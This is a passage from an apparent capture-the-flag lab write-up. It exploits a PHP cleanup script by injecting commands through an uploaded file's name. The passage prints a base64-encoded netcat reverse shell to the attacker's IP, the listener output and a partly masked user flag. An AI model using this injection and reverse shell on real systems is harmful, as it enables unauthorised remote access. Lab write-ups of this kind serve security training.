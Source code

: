 When the script runs, it will loop over the files, and when it runs over mine, it will set `$value` to `a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh; b` and run:

```

exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");

```

Which means it will run:

```

exec("nohup /bin/rm -f /var/www/html/uploads/a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh; b > /dev/null 2>&1 &");

```

Once the clock hits a minute divisible by three, I get a shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:57712.
id
uid=1000(guly) gid=1000(guly) groups=1000(guly)

```

I’ll also make sure to clean up my file:

```

bash-4.2$ rm a*

```

As guly, I can grab `user.txt`:

```

[guly@networked ~]$ cat user.txt 
526cfc23...

```

## Privesc to root

### Enumeration

`sudo -l` (one of the first things I check on any Linux hosts) shows me that guly can run a shell script as root without a password:
